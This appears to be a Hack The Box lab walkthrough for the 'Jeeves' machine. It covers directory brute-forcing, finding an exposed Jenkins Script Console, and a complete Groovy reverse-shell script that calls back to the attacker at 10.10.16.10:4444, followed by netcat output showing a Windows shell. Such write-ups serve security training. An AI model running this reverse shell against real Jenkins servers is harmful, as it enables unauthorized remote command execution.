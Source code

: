 ## Web Enumeration ⤵️

I loaded the port 80 site but not got anything →

![Untitled](Jeeves/Untitled%201.png)

I then checked port 50000 and I got the Jetty 9.4.z site →

![Untitled](Jeeves/Untitled%202.png)

Then I ran directory or files bruteforcing and got this directory →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Jeeves]
└─$ cat ferox_50000.json  
200      GET      147l      319w     3744c http://10.10.10.63/style.css
200      GET        1l        4w       50c http://10.10.10.63/error.html
200      GET       17l       40w      503c http://10.10.10.63/
302      GET        0l        0w        0c http://10.10.10.63:50000/askjeeves => http://10.10.10.63:50000/askjeeves/
```
{: .nolineno}
{: .nolineno}

I loaded this URL and I got a jenkins site so lets loaded the **Script Console** on this site :

![Untitled](Jeeves/Untitled%203.png)

I ran this Groovy script to gain the reverse shell →

```bash
String host="10.10.16.10";
int port=4444;
String cmd="cmd";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
{: .nolineno}
{: .nolineno}

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Jeeves]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.10.63] 49704
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke

C:\Users\Administrator\.jenkins>
```
{: .nolineno}
{: .nolineno}
